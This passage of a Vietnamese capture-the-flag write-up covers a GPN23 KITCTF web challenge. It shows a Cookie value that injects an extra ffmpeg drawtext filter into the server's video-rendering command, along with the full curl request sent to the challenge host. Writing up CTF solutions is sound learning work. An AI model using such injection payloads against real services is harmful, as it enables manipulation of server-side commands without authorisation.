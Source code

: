 Vậy là biết được cách server xử lí cái `Cookie` được truyền vào như nào rồi. Đầu tiên sẽ là `drawtext` và lệnh `text` sẽ đưa vào toàn bộ nội dung của `Cookie`, ở đây ta gặp lỗi khi thực hiện lệnh `drawtext` thứ 2 do không phân cách giữa 2 lệnh chuẩn. Cần thêm cả dấu `,` đằng sau `:` nữa

Thử với payload mới (Thêm dấu phẩy)

```
1.1.1.1::,drawtext=fontfile=font.ttf:text='Stack Overflow':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2
```

```
curl 'https://silverton-of-ridiculous-commerce.gpn23.ctf.kitctf.de/' \
  -H 'Host: silverton-of-ridiculous-commerce.gpn23.ctf.kitctf.de' \
  -H "Cookie: 1.1.1.1::,drawtext=fontfile=font.ttf:text='Stack Overflow':fontcolor=white:fontsize=24:box=1:boxcolor=black@0.5:boxborderw=5:x=(w-text_w)/2:y=(h-text_h)/2" \
  -H 'Cache-Control: max-age=0' \
  -H 'Sec-Ch-Ua: \"Chromium\";v=\"137\", \"Not/A)Brand\";v=\"24\"' \
  -H 'Sec-Ch-Ua-Mobile: ?0' \
  -H 'Sec-Ch-Ua-Platform: \"Windows\"' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'Sec-Fetch-Mode: navigate' \
  -H 'Sec-Fetch-Dest: document' \
  -H 'Referer: https://silverton-of-ridiculous-commerce.gpn23.ctf.kitctf.de/' \
  -H 'Accept-Encoding: gzip, deflate, br' \
  -H 'Priority: u=0, i' \
  -H 'Connection: keep-alive' \
  --output test2.mp4
```
